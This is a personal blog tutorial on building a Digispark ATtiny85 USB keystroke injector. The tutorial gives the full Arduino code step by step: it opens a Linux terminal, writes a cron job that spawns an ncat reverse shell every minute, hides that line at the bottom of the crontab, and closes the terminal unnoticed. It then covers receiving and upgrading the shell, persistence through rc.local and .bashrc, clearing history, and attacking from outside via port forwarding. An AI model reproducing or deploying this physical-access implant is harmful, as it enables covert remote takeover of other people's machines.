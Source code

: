 ```yaml
---
layout: page
title: USB Keyboard Injectors - using the Digispark Attiny 85
permalink: /usb_injectors/
---
```


# Introduction
If you are unaware of what USB injectors are they essentially act as a keyboard with pre-programmed instructions. These instructions act as normal keystrokes that you would see from any other keyboard, it just stores what you want to type out and does so automatically when the USB is plugged in. This is very useful because a keyboard is implictly trusted and there are a number of shortucts that can be used to reach a command prompt / shell, run dialog, or anything else that can be used to compromise a machine.<br><br>
On top of this, a study conducted by the Department of Homeland Security years ago showed that, situation dependant, [over 50% of people that picked up the USBs plugged them in to their computers](https://www.computerworld.com/article/2510014/government-tests-show-security-s-people-problem.html). These numbers increase when the USBs have official looking logos and decrease with proper education / security awareness. Even if the number today is only half what is was back then it remains a concerning statistic, but great for those trying to use people to compromise a machine or network. Malicious USBs can be absolutely devastating to a network or operation, just look at what happened in Iran with Stuxnet (of which the U.S. was 100%, absolutely, unquestionably in _no way_ involved). I trust you'll pick up on that.
<br><br>
As mentioned, this page will cover the [Digispark Attiny 85](http://digistump.com/products/1), pictured below.<br>
<p align="center"><img width="300" src="/assets/malicious_usbs/digi/digiattiny85.jpg"></p>
These scripts can be installed on the Digispark boards through the Arduino IDE, which can be downloaded from [here](https://www.arduino.cc/en/software). I'm not going to cover the exact installation process because whether you go the Windows or Linux route it's going to be a pain, and there are more than enough tutorials already out there for that. If you go the Linux route you'll need to configure udev rules for your system (reference [here](https://startingelectronics.org/tutorials/arduino/digispark/digispark-linux-setup/)) or the correct drivers if you go the Windows route (start [here](https://github.com/digistump/DigistumpArduino/releases)).
<br><br><br>

# Configuring the crontab to install a reverse shell
The script I wrote can be found in its entirety [here](https://raw.githubusercontent.com/fe-moldark/wesleykent-website/gh-pages/assets/malicious_usbs/reverse_shell_crontab.ino), and before you actually try to write this to the Digispark board you will need to edit the IDE's preferences tab to install the Digispark library and then from the boards manager as well on the IDE - again, there are a million tutorials for this.
<br><br>
Excluding defining a few keys in the beginning the script takes place almost entirely in the `void loop()`, which I will now go over. This section below will press the key combination "CTRL+ALT+T", which on Ubuntu (and other linux distros) will open up a console. From there the I entered in `crontab -e` which will allow us to edit the crontab in the next step. Here is what that looks like:
<br>
```scala
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT); //start the shell
  DigiKeyboard.delay(600);
  DigiKeyboard.print("crontab -e");
  DigiKeyboard.delay(300);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
<br>
This next section is necessary because of an unknown factor, which is whether or not the user has configured their crontab before. If a user has already done so then the above `crontab -e` will bring them straight to editing. If they have not, however, there will first be a prompt to select a text editor to use (e.g. nano, vim, etc) and only then will you be forwarded to it. Since one can't know this, the script assumes that the crontab has _not_ been configured and enters in the proper keystrokes to get you there. If it already has been configured then you will needlessly enter in a "1" to what would have selected the editor and then the "ENTER" key, which is then erased by two quick backspace keystrokes. What that looks like is as follows:
```scala
  //In case no crontab has been installed
  DigiKeyboard.print("1");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.sendKeyStroke(KEY_DELETE);
  DigiKeyboard.delay(700);
```
<br>
These next few lines will navigate far down to the bottom of the crontab in an attempt to hide the reverse shell command at first glance:
```scala
  //punch down to the very bottom to hide the following command
  for (int i=0;i<45;i++) {
    DigiKeyboard.sendKeyStroke(KEY_ARROW_DOWN);
  }
```
<br>
Now to actually write the reverse shell command into the crontab. The five asterisks indicate this script will run every minute of every hour of every day. If you wanted to have this only execute at a particular time of day you could designate e.g. every Wednesday at 6:15PM instead.<br>
```scala
  DigiKeyboard.print("* * * * * ncat 192.168.11.59 4444 -e /bin/sh"); //this will need to be customized to your local IP and port
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
```
Note: It might be worth it to install two separate commands, one with `ncat` and the other with `nc` since only one of those might be installed on the machine. You will also need to configure your own IP address into this command.<br><br>
After installing that cronjob the following keytrokes will exit the crontab with "CTRL+X" and then save the changes with "Y" and "ENTER"" to confirm.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_X , MOD_CONTROL_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_Y);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(700);
```
<br>
The last command, "CTRL+SHIFT+Q" will close out the shell so no one is aware of what just happened.<br>
```scala
  DigiKeyboard.sendKeyStroke(KEY_Q , MOD_CONTROL_LEFT | MOD_SHIFT_LEFT); //close out the terminal
  DigiKeyboard.delay(700);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  for (;;) {
    /*empty*/
  }

}
```

To receive the shell on your local host all that is needed is a netcat listener open on the right IP address and corresponding port:
<p align="center"><img width="850" src="/assets/malicious_usbs/nc listener.png"></p>
The shell we initially recieve is not very stable or powerful. For example, when I tried to switch users in the first shell that was provided the prompt for the password appeared on the target machine instead of my own, and there were a number of other commands that similarly did not work. Now there are several ways to upgrade the shell, some of which I covered on [this](/tipsandtricks/privilegeescalation/) page. Perl was either not installed on this machine or did not work, and same with Python. Python3, however, was installed and I could upgrade the shell as seen with the following command.<br>
<p align="center"><img width="625" src="/assets/malicious_usbs/upgrade shell.png"></p><br>
From there you can install more scripts to further enumerate and exploit the machine, and install more malware to grant you backdoor access in the event that the crontab command is discovered and removed, perhaps that user account is deleted entirely, etc.
<br><br><br>

# Final thoughts
It's worth noting that different users will have separate crontabs, but they will still execute even when not logged in. I noticed this when I first uploaded the reverse shell to a test user, completely logged out of that account to work on writing this page and the nc listener still activated later from that same cronjob.
<br><br>
This same idea of using the crontab to keep a constant reverse shell pathway open is not the only option. Since this exploit is focused on Linux you could also target the `rc.local` and `.bashrc` files to only reach out to you whenever the system boots or when a user opens a new shell. Get as creative as you want with it.
<br><br>
Another way to hide your actions before you close out the shell would be to delete the last commands you have entered from the history file, but you would only need that if you were trying to cover every possible trace. Since you will likely not always be on the same network you are trying to exploit you might want to use your Public IP address or some proxy server instead, and after configuring proper port forwarding rules you could gain access remotely from the comfort of your own home.
<br><br>
And this goes without saying but I'm going to say it anyways - don't do anything stupid with these USBs or scripts. If you do that's all on you. Cheers.
<br><br>
